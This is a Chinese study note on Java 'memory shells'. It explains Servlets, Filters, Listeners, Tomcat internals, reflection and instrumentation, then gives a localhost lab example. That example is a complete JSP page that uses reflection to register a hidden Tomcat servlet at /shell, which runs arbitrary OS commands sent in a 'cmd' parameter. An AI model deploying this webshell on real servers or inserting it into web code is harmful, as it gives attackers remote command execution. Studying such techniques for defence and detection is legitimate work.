

# Java内存马

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)

---

- [Java内存马](#java内存马)
  - [Java Web 三大件](#java-web-三大件)
    - [Servlet](#servlet)
      - [请求的处理过程](#请求的处理过程)
      - [Servlet 生命周期](#servlet-生命周期)
    - [Filter](#filter)
      - [基本工作原理](#基本工作原理)
      - [Filter的生命周期](#filter的生命周期)
      - [Filter链](#filter链)
      - [Listener](#listener)
      - [用途](#用途)
  - [Tomcat](#tomcat)
    - [Tomcat架构设计](#tomcat架构设计)
  - [Java反射](#java反射)
  - [java instrumentation](#java-instrumentation)
    - [Java Agent](#java-agent)
  - [示例 -Tomcat-ServletAPI型内存马](#示例--tomcat-servletapi型内存马)
    - [环境配置](#环境配置)

---

## Java Web 三大件

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)

---

### Servlet

Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。它负责处理用户的请求，并根据请求生成相应的返回信息提供给用户。

在Java中，`Servlet`是一个实现了`javax.servlet.Servlet`接口的Java类。通常，开发者会创建一个自定义的Servlet类来处理特定的请求，这个类包含具体的业务逻辑，比如从数据库中获取数据、处理表单提交等。

---

#### 请求的处理过程

1. **客户端发起请求**：客户端（通常是浏览器）向服务器发起一个HTTP请求，比如一个`GET`请求

2. **请求到达Servlet容器**：Servlet容器（如Tomcat、Jetty等）接收到请求，并根据请求的URL确定应该由哪个Servlet来处理这个请求。

3. **封装请求对象**：Servlet容器会将请求封装成`HttpServletRequest`对象，将响应封装成`HttpServletResponse`对象。这两个对象提供了与请求和响应相关的信息，如请求参数、请求头信息和响应数据。

4. **调用`init()`方法**：Servlet 容器通常会在第一次触发 Servlet 的请求发生时实例化该 Servlet

   在处理请求之前，Servlet容器会确保该Servlet实例已经被创建（如果还没有创建过）。如果这是第一次请求该Servlet，容器将调用Servlet的`init()`方法来完成Servlet的初始化工作。

   `init()`方法只会在Servlet的生命周期内被调用一次。

5. **调用`service()`方法**：Servlet容器调用Servlet实例的`service()`方法，传入`HttpServletRequest`和`HttpServletResponse`对象。`service()`方法根据请求的HTTP方法（如`GET`、`POST`等）来决定调用相应的`doGet()`或`doPost()`方法。

6. **调用相应的`doXXX()`方法**：由于请求类型为`GET`，所以容器将调用Servlet的`doGet()`方法。这个方法通常包含了应用的具体业务逻辑，如数据库查询、数据处理等。

7. **返回响应结果**：在业务逻辑处理完成后，`doGet()`方法会通过`HttpServletResponse`对象将结果（如HTML页面、JSON数据等）写回给客户端。

8. **结束请求处理**：请求处理结束后，Servlet容器将返回生成的响应给客户端（浏览器）。

9. **调用`destroy()`方法**：在容器关闭或Servlet被卸载时，Servlet容器将调用Servlet的`destroy()`方法，以释放Servlet占用的资源。`destroy()`方法只会在Servlet被销毁前调用一次。

通过这个过程，Servlet能够动态地生成和返回Web内容给客户端。

---

#### Servlet 生命周期

1. 服务器启动时( `web.xml` 中配置 `load-on-startup=1`，默认为0)或者第一次请求该servlet时，就会初始化一个Servlet对象，也就是会执行初始化方法`init(ServletConfig conf)`

   > 如果在 `web.xml` 文件中配置了 `load-on-startup` 属性为正整数（如`1`），则表示这个 Servlet 会在服务器启动时被加载和初始化。这种方式叫做**提前加载（Eager Loading）**。数字越小表示优先级越高
   >
   > 只有当 `load-on-startup` 为 `0` 或负数时，Servlet 容器会采用延迟加载，即在第一次请求时初始化该 Servlet

2. `service(ServletRequest req，ServletResponse res)` 方法是 Servlet 处理客户端请求的入口点

   每次有请求到达时，Servlet 容器会调用 Servlet 实例的 `service` 方法，该方法会根据请求的 HTTP 方法（如 GET、POST 等）调用相应的 `doGet()` 或 `doPost()` 方法

3. 在服务器关闭、应用程序卸载或重新部署时，Servlet 容器会调用 Servlet 的 `destroy()` 方法。这个方法的调用是为了允许 Servlet 进行一些清理工作，例如释放资源（如关闭数据库连接、释放文件句柄等）

4. 在 `destroy()` 方法被调用之后，Servlet 实例将变得不可达（没有引用指向它）。此时，JVM 的垃圾回收器（Garbage Collector，GC）将负责回收这个对象的内存

   > 垃圾回收的时机由 JVM 决定，因此无法精确控制它什么时候会发生。但通常来说，`destroy()` 方法被调用后，JVM 会在适当的时候回收该对象的内存。

---

### Filter

filter也称之为过滤器，是对Servlet技术的一个强补充，其主要功能是在HttpServletRequest到达 Servlet 之前，拦截客户的HttpServletRequest ，根据需要检查HttpServletRequest，也可以修改HttpServletRequest 头和数据；

> 也就是充当一个全局的请求/响应拦截修改器的作用
>
> FastAPI 中的中间件作用与此相似

在HttpServletResponse到达客户端之前，拦截HttpServletResponse ，根据需要检查HttpServletResponse，也可以修改HttpServletResponse头和数据。

---

#### 基本工作原理

1. Java Web Filter 是一个实现了 `javax.servlet.Filter` 接口的 Java 类，与 Servlet 一样由 Servlet 容器（如 Tomcat、Jetty）调用和执行。Filter 类需要实现 `doFilter` 方法，并在其中编写拦截逻辑。

2. 可以在web.xml 注册一个 Filter 来对某个 Servlet 程序进行拦截处理

   Filter 的主要功能之一就是拦截请求，它可以决定是否将请求传递给目标 `Servlet` 或其他过滤器，并有能力在请求和响应传递前对其进行修改。

3. 当一个 HTTP 请求到达 Servlet 容器时，Servlet 容器首先检查请求的 URL 模式是否与任何注册的 `Filter` 匹配。如果匹配，Servlet 容器会调用 `Filter` 的 `doFilter` 方法。`doFilter` 方法可以选择是否继续调用过滤器链（`FilterChain.doFilter`）使得目标 Servlet 的 `service` 方法最终被调用。

4. `Filter` 不直接调用目标 `Servlet` 的 `service` 方法，而是调用 `FilterChain.doFilter` 方法。`FilterChain` 是由 Servlet 容器管理的对象，它决定下一个要执行的 `Filter` 或最终的 `Servlet`。

5. 通过在 `FilterChain.doFilter` 方法前后插入代码，可以在请求到达目标 Servlet 之前和响应返回客户端之前执行特定的逻辑，比如日志记录、性能监控等。

6. 如果 `Filter` 的 `doFilter` 方法没有调用 `FilterChain.doFilter` 方法，目标 `Servlet` 的 `service` 方法就不会被执行。这种机制可以用于访问控制，防止非法请求。

---

#### Filter的生命周期

- **创建和初始化**：Filter的创建和初始化确实由Web容器负责。Web应用程序启动时，Web服务器会创建Filter实例，并调用其`init`方法进行初始化。`init`方法只会执行一次，开发人员可以通过`FilterConfig`对象获取当前Filter的配置信息。
- **驻留和销毁**：Filter对象在创建后会驻留在内存中，直到Web应用被移除或服务器停止时才会销毁。在销毁前，Web容器会调用Filter的`destroy`方法，该方法也只会执行一次，用于释放Filter使用的资源。

---

#### Filter链

当多个filter同时存在的时候，组成了filter链。web服务器根据Filter在 `web.xml` 文件中的注册顺序，决定先调用哪个Filter。

当第一个Filter的doFilter方法被调用时，web服务器会创建一个代表Filter链的FilterChain对象传递给该方法，通过判断FilterChain中是否还有filter决定后面是否还调用filter。

---

#### Listener

JavaWeb开发中的监听器（Listener）就是Application、Session和Request三大对象创建、销毁或者往其中添加、修改、删除属性时自动执行代码的功能组件。

- `ServletContextListener`：对Servlet上下文的创建和销毁进行监听

- `ServletContextAttributeListener`：监听Servlet上下文属性的添加、删除和替换

- `HttpSessionListener`：对Session的创建和销毁进行监听

  Session的销毁有两种情况: Session超时和调用Session对象的`invalidate()`方法

- `HttpSessionAttributeListener`：对Session对象中属性的添加、删除和替换进行监听

- `ServletRequestListener`：对请求对象的初始化和销毁进行监

- `ServletRequestAttributeListener`：对请求对象属性的添加、删除和替换进行监听

---

#### 用途

可以使用监听器监听客户端的请求、服务端的操作等。通过监听器，可以自动出发一些动作，比如监听在线的用户数量，统计网站访问量、网站访问监控等。

---

## Tomcat

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)

---

简单理解，Tomcat 是 HTTP服务器 + Servlet 容器; 其主要功能包括:

1. **接收和解析 HTTP 请求**：Tomcat 接收来自客户端的 HTTP 请求，并将其解析为文本格式。
2. **封装请求和响应对象**：Tomcat 将解析后的请求封装为 `HttpServletRequest` 对象，并将响应封装为 `HttpServletResponse` 对象。
3. **传递给 Servlet**：封装后的 `HttpServletRequest` 对象会被传递给相应的 Servlet 进行处理。
4. **生成响应**：Servlet 处理请求后，会生成响应内容，并通过 `HttpServletResponse` 对象返回给 Tomcat。
5. **发送响应**：Tomcat 将 `HttpServletResponse` 对象中的内容转换为 HTTP 响应文本，并发送回客户端浏览器。




---

### Tomcat架构设计

> [Apache Tomcat 9 Architecture (9.0.93) - Architecture Overview](https://tomcat.apache.org/tomcat-9.0-doc/architecture/overview.html)
>
> [java - Tomcat 架构原理解析到架构设计借鉴 - 个人文章 - SegmentFault 思否](https://segmentfault.com/a/1190000023475177)

Tomcat 简单来说可以理解为一个 Web服务器 + Servlet 容器, 他需要做网络连接和Servlet管理, 相对应的设计了两个核心组件来实现这两个功能: `连接器` 和 `容器`

- `连接器` 用于处理外部网络连接
- `容器` 用来处理内部 Servlet

用一张图表示他们的关系:


- `Server`：在 Tomcat 中，Server 代表整个容器; 一个 Server 可以包含多个 Service

- `Service`：一个 Service 是一个中间组件，它将一个或多个 Connector 连接到一个 Engine

  - Tomcat 默认的 Service 名为 Catalina
  - 一个 Service 服务可以包含多个连接器，因为 Tomcat 支持多种网络协议，包括 HTTP/1.1、HTTP/2、AJP 等等
  - 一个 Service 服务还会包括一个容器，容器外部会有一层 Engine 引擎所包裹，负责与处理连接器的请求与响应，连接器与容器之间通过 ServletRequest 和 ServletResponse 对象进行交流

- `Connector`：Connector 负责处理客户端的通信

  Tomcat 支持多种协议，包括 HTTP/1.1、HTTP/2 和 AJP

- `Engine`：Engine 代表一个 Service 的请求处理管道。一个 Engine 可以包含多个 Host

- `Host`：Host 代表一个虚拟主机，通常与一个网络名称（如 www.example.com）相关联

  一个 Engine 可以对应一个多个host,  外部访问的这些域名通过 DNS 解析后，通常会指向同一个 IP 地址。在这种情况下，Tomcat 通过配置多个 Host 来区分不同的虚拟主机，每个虚拟主机可以托管不同的 Web 应用。

  当用户访问某个域名时，DNS 服务器会将该域名解析为相应的 IP 地址，然后请求会被发送到这台服务器上的 Tomcat 实例。Tomcat 会根据请求的 Host 头信息（即域名）来确定应该处理该请求的虚拟主机（Host），从而将请求路由到正确的 Web 应用。

  这种配置方式允许你在同一台服务器上托管多个域名和 Web 应用，简化了管理和部署。

- `Context`：Context 代表一个 Web 应用。一个 Host 可以包含多个 Context，每个 Context 有一个唯一的路径

- `Wrapper`：Wrapper 代表一个 Servlet。一个 Context 可以包含多个 Wrapper

- `Mapper`：Mapper 组件负责将请求路径映射到相应的容器组件（如 Host、Context 和 Wrapper）

  一个engine可以对一个多个host，也就是虚拟主机，一个host可以对应多个context，也就是web应用，一个context对应多个wrapper，也就是servlet。这个映射关系，通过mapper组件来关联，mapper组件保存了Web应用的配置信息，容器组件与访问路径的映射关系。Host容器的域名，Context容器中的web路径，Wrapper容器中的servlet映射的路径，这些配置信息是多层次的Map。

---

根据请求定位到指定servlet的流程图如下:


---

## Java反射


反射提供的功能，能在运行时（动态）地

- 获取一个类的所有成员变量和方法
- 创建一个类的对象
- 获取对象成员变量&赋值
- 调用对象的方法
- 判断对象所属的类

在注入内存马的过程当中，我们可能需要用到反射机制，例如注入一个servlet型的内存马，我们需要使用反射机制来获取当前的context，然后将恶意的servlet（wrapper）添加到当前的context的children中。
在使用Java反射机制时，主要步骤包括:

1. 获取目标类型的Class对象
2. 通过 Class 对象分别获取Constructor类对象、Method类对象 & Field 类对象
3. 通过 Constructor类对象、Method类对象 & Field类对象分别获取类的构造函数、方法&属性的具体信息，并进行后续操作

---

##  java instrumentation

---

Java Instrumentation 是 Java SE 5 引入的一项功能，是Java提供的一个来自JVM的接口, 位于 `java.lang.instrument` 包中; 该接口提供了一系列查看和操作Java类定义的方法，例如修改类的字节码、向classLoader的classpath下加入jar文件等, 使得开发者可以通过Java语言来操作和监控JVM内部的一些状态, 在 Java 虚拟机（JVM）加载类之前或之后对类进行修改, 进而实现Java程序的监控分析，甚至实现一些特殊功能（如AOP、热部署）。

通过 Instrumentation，开发者可以构建一个独立于应用程序的代理程序（Agent），用来监测和协助运行在 JVM 上的程序，甚至能够替换和修改某些类的定义。例如，常见的应用包括监控代理、分析器、覆盖分析程序和事件日志记录程序。

---

### Java Agent

Java agent是一种特殊的Java程序（Jar文件），它是Instrumentation的客户端。与普通Java程序通过main方法启动不同，agent并不是一个可以单独启动的程序，而必须依附在一个Java应用程序（JVM）上，与它运行在同一个进程中，通过Instrumentation API与虚拟机交互。

在注入内存马的过程中，我们可以利用java instrumentation机制，动态的修改已加载到内存中的类里的方法，进而注入恶意的代码。


----

## 示例 -Tomcat-ServletAPI型内存马

### 环境配置

[安装Tomcat](../../../../../Language/Java/Java.md#tomcat安装) -> [配置Tomcat](../../../../../Language/Java/Java.md#tomcat配置)

在 Tomcat 的 `webapps` 目录下, 常见一个新的子目录, 例如 `java-memshell-tomcat-servletapi`

Tomcat 会自动部署这个应用, 可以通过 `http://localhost:8080/java-memshell-tomcat-servletapi` 访问此应用


---

下面的代码先是创建了一个恶意的servlet，然后获取当前的StandardContext，然后将恶意servlet封装成wrapper添加到StandardContext的children当中，最后添加ServletMapping将访问的URL和wrapper进行绑定。

```java
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };

    // 获取StandardContext
    StandardContext standardCtx = null;
    ServletContext servletContext = request.getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    Object appContext = appContextField.get(servletContext);

    Field standardCtxField = appContext.getClass().getDeclaredField("context");
    standardCtxField.setAccessible(true);
    standardCtx = (StandardContext) standardCtxField.get(appContext);

    if (standardCtx != null) {
        // 用Wrapper对其进行封装
        org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
        newWrapper.setName("summermemshel");
        newWrapper.setLoadOnStartup(1);
        newWrapper.setServlet(servlet);
        newWrapper.setServletClass(servlet.getClass().getName());

        // 添加封装后的恶意Wrapper到StandardContext的children当中
        standardCtx.addChild(newWrapper);

        // 添加ServletMapping将访问的URL和Servlet进行绑定
        standardCtx.addServletMappingDecoded("/shell", "summermemshel");
    } else {
        out.println("Failed to get StandardContext");
    }
%>
```

新建一个 `index.jsp` 文件, 将上述代码贴在其中

访问 `http://localhost:8080/java-memshell-tomcat-servletapi/index.jsp`


验证 servletapi 内存马: `http://localhost:8080/java-memshell-tomcat-servletapi/shell?cmd=whoami`

> 不可以加 `/index.jsp`, 否则会 404
>
> 
>
> 

使用新增servlet的方式就需要绑定指定的URL。

如果我们想要更加隐蔽，做到内存马与URL无关，无论这个url是原生servlet还是某个struts action，甚至无论这个url是否真的存在，只要我们的请求传递给tomcat，tomcat就能相应我们的指令，那就得通过注入新的或修改已有的filter或者listener的方式来实现了。

比如早期 rebeyond 师傅开发的 memshell，就是通过修改 `org.apache.catalina.core.ApplicationFilterChain` 类的 `internalDoFilter` 方法来实现的，后期冰蝎最新版本的内存马为了实现更好的兼容性，选择 hook `javax.servlet.http.HttpServlet#service` 函数，在 weblogic 选择hook `weblogic.servlet.internal.ServletStubImpl#execute` 函数。


